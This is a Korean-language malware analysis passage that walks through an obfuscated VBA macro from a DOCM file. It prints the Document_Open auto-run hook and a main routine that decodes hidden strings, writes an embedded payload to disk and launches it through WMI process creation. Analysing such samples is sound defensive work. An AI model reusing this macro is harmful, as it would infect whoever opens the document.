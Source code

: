 이 코드는 난독화가 되어 있는 코드이며 다음과 같은 분석 순서를 정해서 분석 시작

    1. 코드 시작 찾기 
    2. Main 함수 찾기 
    3. 디코딩 방식 분석 
    4. Main 함수 분석 

## 코드 시작 찾기

이코드는 DOCM에 내장된 코드로 매크로를 사용해서 악성행위를 할 때는 Document Open 이나 Auto Open같은 기능을 써서 문서가 열릴 때 자동으로 실행되도록 한다. 

```vb
Private Sub Document_Open()
    zwxcnxajcshyp True
End Sub
```

이 부분이 코드의 시작이고 zwxcnxajcshyp 함수가 Main 함수로 추측된다.

## Main 함수 찾기 

```vb
Private Sub zwxcnxajcshyp(zdhyapqsagz As Boolean)
    Const merrdjtosyhjjuraz = "166157191179213210202213196208167196215196191"
    Const iujnoejlhsccsg = "218204209208202208215214157222204208211200213214210209196215204210209175200217200207160204208211200213214210209196215200224132191191145191213210210215191198204208217149"
    Const qpwyadnvluauprq = "186204209150149194179213210198200214214182215196213215216211"
    Const lwflmkaqbtsalhmvh = "218204209208202208215214157213210210215191198204208217149157186204209150149194179213210198200214214"
    Const ichejlnhmywnfzndkdg = "203215215211157146146207210198196207203210214215146"
    Dim pnjbsrngsgckjayoasd() As Byte
    Dim diowrynmsjektmzbl As String
    Dim nvplchnzsnuzfpoy As String
    If Dir(".gattaka") <> "" Then
        MsgBox "Obsolete environment, please, update", vbInformation
    Else
        If zdhyapqsagz Then
            pnjbsrngsgckjayoasd = tylkftcicrjxfvkh(ActiveDocument.CustomXMLParts(rrhzspxkphvvy(ichejlnhmywnfzndkdg)).SelectSingleNode("/").Text)
            diowrynmsjektmzbl = lcjsxjbkldksstie
            raeozmfjnymq rrhzspxkphvvy(merrdjtosyhjjuraz) + diowrynmsjektmzbl, pnjbsrngsgckjayoasd, False
            pnjbsrngsgckjayoasd = rrhzspxkphvvy(merrdjtosyhjjuraz)
            Set fhfcsnunstz = GetObject(rrhzspxkphvvy(iujnoejlhsccsg))
            Set xydisndhrfnkrmnael = fhfcsnunstz.Get(rrhzspxkphvvy(qpwyadnvluauprq))
            Set ieupzwunaig = xydisndhrfnkrmnael.SpawnInstance_
            Set mpuduxzmupgceh = GetObject(rrhzspxkphvvy(lwflmkaqbtsalhmvh))
            nvplchnzsnuzfpoy = rrhzspxkphvvy("213216209199207207150149131") + rrhzspxkphvvy(merrdjtosyhjjuraz) + diowrynmsjektmzbl + rrhzspxkphvvy("143204209204215")
            vdibilucsvcvqrqhgbyy = mpuduxzmupgceh.Create(nvplchnzsnuzfpoy, Null, ieupzwunaig, uyyuhnoffydfft)
        Else
        End If
    End If
End Sub
```
